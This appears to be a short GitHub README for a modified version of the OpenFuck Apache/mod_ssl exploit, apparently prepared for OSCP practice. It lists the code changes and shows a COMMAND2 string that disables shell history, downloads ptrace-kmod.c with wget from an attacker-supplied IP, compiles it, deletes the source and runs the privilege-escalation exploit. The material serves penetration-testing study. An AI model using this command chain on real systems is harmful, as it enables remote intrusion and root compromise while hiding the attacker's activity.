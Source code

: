 # openfuck_oscp
modified the code on line 671

host  the ptrace-kmod.c 

added the lines export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin to overcome ld error

enter url of the file in the command2

change the url only to execute the code

#define COMMAND2 "unset HISTFILE; cd /tmp;export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin; wget http://enter ur ip here/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c; rm ptrace-kmod.c; ./exploit; \n"

for more refer:https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1


